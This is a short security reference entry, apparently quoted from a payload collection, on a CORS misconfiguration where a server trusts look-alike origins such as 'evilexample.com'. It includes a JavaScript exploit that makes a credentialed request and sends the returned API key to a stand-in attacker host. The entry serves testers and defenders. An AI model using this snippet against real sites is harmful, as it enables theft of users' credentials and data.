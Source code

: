 # Pre Domain Bypass

## Description 
Host allows requests from hostnames that has this host as a prefix. 

**Severity**: High

## Exploit
`example.com` trusts `evilexample.com`, which is an attacker's domain.

### Example
In this scenario any prefix inserted in front of `example.com` will be accepted by the server.  

**Vulnerable Implementation**

```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-1)
